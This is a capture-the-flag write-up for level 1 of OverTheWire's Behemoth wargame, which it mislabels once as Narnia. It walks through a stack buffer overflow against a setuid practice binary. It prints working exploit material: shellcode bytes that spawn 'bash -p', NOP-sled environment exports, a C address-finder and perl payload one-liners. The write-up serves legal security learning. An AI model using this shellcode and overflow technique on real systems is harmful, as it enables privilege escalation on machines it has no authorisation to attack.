


# Behemoth Level - 1

This is an elaborate each level oriented write-up for the Narnia wargame from OverTheWire.org. These challenges provide invaluable hands-on learning experiences in cybersecurity and exploitation techniques. If you find these resources helpful, please consider supporting the OverTheWire team who create and maintain these educational platforms—they're doing important work making security education accessible to everyone.

**`Donate at:`** [https://overthewire.org/information/donate.html](https://overthewire.org/information/donate.html)

---

**`Author:`** Jinay Shah

**`Tools Used:`**

- ltrace
- GDB

---

# TL;DR

### Vulnerability

Classic **stack-based buffer overflow** allowing EIP control.

However, successful exploitation is **highly dependent on runtime environment, stack layout, and argv/env alignment**, making naïve payloads unreliable.

### Final working payload (conceptual structure)

```
"A" * <offset_to_EIP>
+ <return_address_into_NOP_sled>
+ NOP sled (large)
+ shellcode
```

**Shellcode location:** environment variable

**Execution context:** outside `gdb`, with a clean environment

### Why this payload finally worked

- **Large NOP sled**
    - Precise return addresses were unreliable.
    - A large sled tolerated stack variance and ensured landing in executable code.
- **Environment-based shellcode**
    - Placing shellcode in an environment variable provided a larger, more stable memory region than stack-resident shellcode.
- **Corrected argv/env length math**
    - Initial failures came from incorrect assumptions about argument + environment placement.
    - Recalculating exact lengths fixed misalignment issues.
- **Clean execution environment**
    - `gdb` altered stack layout enough to break the exploit.
    - Running the binary normally removed that distortion.

### What didn’t matter

- **Exact shellcode variant**
    - Multiple shellcodes worked once execution landed correctly.
    - Shellcode choice was not the bottleneck.
- **First guessed environment address**
    - Static address assumptions were fragile.
    - Reliability came from tolerance, not precision.
- **Copy-paste walkthrough payloads**
    - Environment differences made external payloads unreliable.
    - Understanding execution flow mattered more than syntax.

### Result

Successful redirection of execution into shellcode, resulting in privilege escalation and retrieval of the **next level password**.

---

## Level info:

There is no information for this level, intentionally. 

[ It will remain so for all the next stages as well of this wargame series ]

---

## Solution:

Let’s begin with the usual normal execution of **`./behemoth1`** and with **`ltrace` :**



It seems there are no solid clues or artefacts as to how we might move forward, let’s try buffer overflow if we can:


There is a segmentation fault- program crashed (successfully, lol) 

Let’s analyze the program in debugging mode using **`gdb`** and disassemble **`main`** function:

```
gdb ./behemoth1
(gdb) disassemble main
```


Let’s run the program in debugging mode [gdb] and input password as 100As:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```


Let’s look at the registers:

```
(gdb) info registers
```

Okay so the EIP [Extended Instruction Pointer] stores AAAA [hex value being → 0x41414141]


We are trying to find the exact location of EIP, so we will just add a couple of Bs at the end and then try to find the exact point after how many characters, is the program crashing [86 As + 4Bs]:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```


Not close yet, this is going to take a little trial and error let’s reduce the size of As by 10 more 
[76 As + 4Bs]:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```


Let’s try 10 more [66As + 4Bs]:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

This time around it did not create a segmentation fault so the breaking character length must be between 70 to 80, let’s tinker slightly more:
[70As + 4Bs]

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```


Okay this one was real close, if you look at the EIP register now, it stores the value: 0x424242 - so 3Bs one more would make it 4Bs exactly, here’s the math to it:

```
70 As + 4Bs -> EIP Register: 3Bs
71 As + 4Bs -> EIP Register: 4Bs

Character length exactly causing the segmentation fault begins from 72nd character!
```

Okay finally we figure this out, let’s verify the same with 71As + 4Bs:


And the math verifies exactly 4Bs in EIP as 0x42424242

Now, we should get to building our shell code to exploit that also preserves effective user id, I have one from previous OverTheWire series, you can use anyone you’d like or the same as me:

```
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80
```

Link to the shell code:

```
https://shell-storm.org/shellcode/files/shellcode-606.html
```

You can choose custom or any other shell code, just remember to use one that preserves user permissions/privileges, it should be like: **`bash -p` :**


We will need to export our shell code as an environment variable, like this:

```
export SHELLCODE='\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```


It is exported as an env variable, perfect!

Now we need to get the exact location or the physical address of the same, we can add NOP which would slide to the shellcode, but this time around I wish to build a C program which gets me the location exactly how? Follow:


```bash
mktemp -d # creates a temporary directory
chmod 777  /tmp/tmp.6aKod8Nhdl # give read, write and execute permissions
cd /tmp/tmp.6aKod8Nhdl # traverse to the temp directory
```

Let’s build our C program:

```bash
nano getloc.c # c program to get the location in nano editor
```

**code:**

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]){
        char *ptr;
        ptr = getenv(argv[1]);
        ptr += (strlen(argv[0]) - strlen(argv[2])*2);
        printf("%s location address: %p\n", argv[1], ptr);
}
```

Allow me to explain the code and what it does for us:

```c
int main(int argc, char *argv[]){
```

- Program entry point.
- `argc` = number of command-line arguments.
- `argv` = array of pointers to the argument strings.

Expected arguments:

- `argv[0]` → program name
- `argv[1]` → name of an environment variable
- `argv[2]` → another string (used only for its length)

```c
char *ptr;
```

Declares a pointer of char data-type.

```c
ptr = getenv(argv[1]);
```

Calls **`getenv()`** with the name stored in **`argv[1]`**.

**`getenv()`** returns:

A pointer to the value string of that environment variable in memory

Or NULL if the variable does not exist

**`ptr`** now points to the start of the environment variable’s value, not the variable name.

Example:

```
./getloc SHELLCODE /behemoth/behemoth1

ptr → points to the string value of SHELLCODE in the process memory.
```

```c
ptr += (strlen(argv[0]) - strlen(argv[2])*2);
```

This is the critical pointer arithmetic line.

Break-down:

**`strlen(argv[0])`**
Length of the program name string.

**`strlen(argv[2])`**

Length of the third command-line argument.

**`strlen(argv[2]) * 2`**

Doubles that length.

**`(strlen(argv[0]) - strlen(argv[2])*2)`**

Computes an integer offset.

This value may be positive or negative.

**`ptr += offset`**

Moves the pointer forward or backward in memory by that many bytes.

**What this program is REALLY doing (summary)**

Fetches the memory address of an environment variable’s value.
Applies a calculated offset based on command-line argument lengths.
Prints the resulting memory address.

Save the file and make a binary executable or compile our file to **`.exe`** program:



And there we go we get the address:

```
0xffffd540
```

The number storing format must be little-endian, but let’s verify that as well:

```
lscpu | grep -i endian
```


It is little endian indeed, if you have no idea about little endian-number storing format;


So the system is little-endian, meaning it will read from LSB [least significant bit] to MSB [most significant bit] or simply from left → to right.

Our address in little-endian will be:

```
\x40\xd5\xff\xff
```

Now let’s craft our payload, we have perl as an option so we will use that:

```
(perl -e 'print "A" x 71 . "\x40\xd5\xff\xff";'; cat) | /behemoth/behemoth1
```

Well the payload doesn’t seem to work yet:


The problem must be the address of SHELLCODE variable.

Let’s try another payload with a NOP sled:

```bash
export SHELLCODE='\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```

Nope even with the NOP sled characters, it still does not seem to work :(

I will have to pivot and start from scratch again to define and break the exploit.

---

Just an update it’s been 2 days now I tried more than tens of attempts and it’s unnecessary to document al of them failures, but just documenting the fact that it is tough for me and I’m still trying to execute a payload which seemed conceptual clear to me early on. 

This is my next pivot and another attempt at a clean execution, with the first method I attempted;
Here we go again [CJ voice]:

```bash
export SHELLCODE=$'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
```


I will now attempt at creating the same/similar C program:


**`callocation.c`:**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]){
        char *ptr;
        ptr = getenv(argv[1]);
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2;
        printf("%s in memory at: %p\n", argv[1], ptr);
}
```

**FINAL WORKING PAYLOAD:**

```
(perl -e 'print "a" x 71 . "\xe3\xd4\xff\xff";'; cat) | /behemoth/behemoth1
```


And finally we get the password for it! 
Oh my days was this tough for me….

---

### **Reflection**

I think the program clicked because I used another machine with completely wiped history and started with a huge NOP sled and extra careful steps each debugged and verified after small changes, honestly I still don’t know why it did not work the first time around- but well such is the nature of stack memory layouts environment variables and the physical memory of systems, this was fun though :)

---

## References:

1. Shell-Storm.org:
    
    https://shell-storm.org/shellcode/index.html
    
2. YouTube [HMCyberAcademy]:

    https://www.youtube.com/watch?v=H6JTwwKHkvE

---
